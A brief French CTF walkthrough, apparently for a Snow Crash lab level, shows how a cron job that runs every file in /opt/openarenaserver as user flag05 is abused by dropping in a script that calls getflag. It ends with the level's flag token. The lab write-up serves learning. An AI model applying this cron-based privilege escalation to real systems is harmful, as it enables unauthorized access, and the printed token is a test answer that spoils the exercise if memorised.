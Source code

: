 ## Démarche

- Panne d'inspi
- Refaire les demarches des précédents
    ```
    find / -name level05  -print 2>/dev/null 
    ```
    > /var/mail/level05
    
    > /rofs/var/mail/level05
    
    ```
    */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
    ``` 
    ????????
 ------
  ```
  $> find / -user flag05 -perm -000 -print 2>/dev/null
  ```
  BINGO

    >    ./usr/sbin/openarenaserver

    >   ./rofs/usr/sbin/openarenaserver


```
    cat ./usr/sbin/openarenaserver
```


```
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
    done
```

touch test.sh
```
#!/bin/bash

/bin/getflag > /tmp/flag05
```
```
 cat /tmp/flag05
```
> Check flag.Here is your token : viuaaale9huek52boumoomioc
> 

## Ressources

- https://www.digitalocean.com/community/questions/how-to-manage-var-mail-root-file
- https://www.hostinger.fr/tutoriels/cron-job/

